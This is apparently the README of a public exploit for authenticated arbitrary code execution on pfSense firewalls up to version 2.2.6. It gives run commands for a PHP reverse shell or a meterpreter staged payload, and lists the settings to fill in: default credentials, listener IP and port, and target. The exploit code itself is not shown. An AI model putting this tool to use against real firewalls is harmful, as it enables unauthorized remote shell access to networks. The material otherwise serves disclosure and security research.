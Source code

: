 # Authenticated Arbitrary Code Execution on pfSense <= 2.2.6

### description

pfSense Community Edition firewall version 2.2.6 and below is vulnerable to arbitrary code execution exploit as an authenticated non-administrative user. The initial advisory came from [Security Assessment](https://www.security-assessment.com/files/documents/advisory/pfsenseAdvisory.pdf) in April 2016, however until very recently there was not a public exploit for this vulnerability. This is my version of this exploit.

You can read about the research and development process on my [blog post](https://spencerdodd.github.io/spencerdodd.github.io/2018/01/14/pfsense-arbitrary-code-execution/) about the exploit.

### php reverse shell payload

![nc_catch](img/nc.gif)

### meterpreter staged payload

![msf_catch](img/msf.gif)

### usage

This exploit can use either a pure PHP reverse shell or a meterpreter staged payload

*nc reverse shell*

```
python3 pfsense_exec.py nc
```

*meterpreter staged payload*

```
python3 pfsense_exec.py msf
```

### variables to set

set these variables (in the source code) to their appropriate values for your exploitation

```
username = 	"admin" 			# default is admin
password = 	"pfsense"			# default is pfsense
listener_ip = 	"10.0.0.1"
listener_port = "4444"
target_ip = 	"10.0.0.2"
...
proxied_url = 	"https://127.0.0.1:31337/"	# if you want to proxy
```
